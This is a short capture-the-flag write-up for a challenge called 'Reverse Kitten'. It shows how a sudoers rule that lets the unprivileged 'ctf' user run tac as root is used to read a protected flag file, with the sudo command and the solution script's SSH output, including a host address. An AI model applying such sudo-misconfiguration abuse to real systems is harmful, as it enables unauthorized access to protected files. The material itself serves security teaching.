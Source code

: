 # Reverse Kitten

The remote system can be accessed through SSH using the non-privileged ``ctf`` user.
The flag is in the ``/home/ctf/flag`` file, not readable by ``ctf``.
There is a configuration in ``/etc/sudoers.d/tac`` allowing the ``ctf`` user to run ``tac`` as a privileged action on the ``flag`` file and read its contents.

# Solution

Connect through SSH using the ``ctf`` user and, while located in ``/home/ctf`` issue the command:

```
  sudo /usr/bin/tac flag
```

The solution script is ``sol/extract``; enter the ``sol/`` folder and run the ``extract`` script:

```
  $ ./extract
  SIS{sudo_make_me_a_sandwich}
  spawn ssh ctf@141.85.224.157 -p 2232 cd /home/ctf; sudo /usr/bin/tac flag
  ctf@141.85.224.157's password:
  SIS{sudo_make_me_a_sandwich}
```
